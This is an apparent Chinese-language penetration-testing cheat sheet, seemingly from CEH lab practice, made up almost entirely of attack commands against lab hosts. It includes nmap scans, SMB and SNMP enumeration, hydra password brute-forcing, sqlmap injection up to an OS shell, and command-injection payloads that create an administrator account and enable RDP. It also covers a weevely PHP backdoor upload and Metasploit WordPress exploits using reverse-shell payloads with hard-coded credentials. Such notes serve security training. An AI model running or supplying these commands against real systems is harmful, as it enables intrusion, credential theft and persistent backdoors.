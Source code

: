 ### 掃描與列舉

<details>
  <summary>使用NMAP掃描網路</summary>
  
  ``` console
  nmap -sn 10.10.10.*
  nmap -sn 10.10.10.* --packet-trace
  nmap -sn scanme.nmap.org --packet-trace
  ```
</details>

<details>
  <summary>使用NMAP掃描主機</summary>

  ```console
  nmap 10.10.10.9
  nmap 10.10.10.9 --reason
    最常用的1000個端口/usr/share/nmap/nmap-services
  nmap 10.10.10.9 -p-
  nmap 10.10.10.16 -sU -p53,137-139,161,1900,5353
  nmap -p80 10.10.10.*
  nmap -p80 10.10.10.2,10,13 --reason
  nmap -p80 10.10.10.* --open
  ```
</details>

<details>
  <summary>使用NMAP識別作業系統與服務</summary>

  ```console
  nmap 10.10.10.16 -O
  nmap 10.10.10.16 -sV
  nmap 10.10.10.16 -sVC -p445,3389
  nmap 10.10.10.16 -sV -O -sC -Pn -p445,3389,389,3268
    for windows
  ```
</details>

<details>
  <summary>列舉常見網路服務</summary>

  ```console
  nmap -sU -p161 --open 10.10.10.*
  nmap -sU -p161 -sC 10.10.10.*
  snmp-check 10.10.10.16
  nmap -sU -p161 --script snmp-win32-users 10.10.10.16
  nbtscan 10.10.10.1-254
  enum4linux 10.10.10.16
  hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
  hydra -l jason -P /usr/share/wordlists/nmap.lst smb://10.10.10.16
    smb可換rdp
  enum4linux -u martin -p apple -a 10.10.10.16
    -a可替換-S -U -P
  python3 -m pip install --upgrade impacket
  crackmapexec smb 10.10.10.16 -u martin -p apple --shares
  ```
</details>

### 掃描與攻擊網頁程式

- 參數串改攻擊
<details>
  <summary>MSSQL隱碼攻擊</summary>

  ```console
  sqlmap -u "url" --cookie="<cookie>" 
  sqlmap -u "url" --cookie="<cookie>" --dbs 
  sqlmap -u "url" --cookie="<cookie>" -D dbname --tables 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users --columns --technique=B 
  sqlmap -u "url" --cookie="<cookie>" -D dbname -T users -dump --technique=B 
  sqlmap -u "url" --cookie="<cookie>" --os-shell
  ```
</details>

- MySQL盲隱碼攻擊

<details>
  <summary>命令注入攻擊</summary>

  ```console
  | whoami
  | net user cehp /add
  | net users
  | net localgroup Administrators cehp /add
  | net localgroup Administrators
  | reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
  | netstat -an | findstr :3389
  ```
</details>

<details>
  <summary>Webshell上傳攻擊</summary>

  ```console
  weevely generate cehp backdoor.php
  weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
  whoami
  ```
</details>

<details>
  <summary>利用WPScan破解WordPress使用者密碼</summary>

  ```console
  whatweb http://10.10.10.16:8080/ceh
  wpscan --url http://10.10.10.16:8080/ceh -e u
  wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst
  ```
</details>

<details>
  <summary>利用Metasploit攻擊WordPress網站</summary>

  ```console
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_admin_shell_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username admin
  set password qwerty@123
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

- 安裝WordPress

<details>
  <summary>利用外掛漏洞攻擊WordPress網站</summary>

  ```console
  wpscan --url http://10.10.10.16:8080/ceh
  sudo service postgresql start
  msfconsole
  use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
  show info
  set rhosts 10.10.10.16
  set rport 8080
  set targeturi /ceh
  set username cehuser1
  set password green
  set payload php/reverse_php
  exploit
  whoami
  ```
</details>

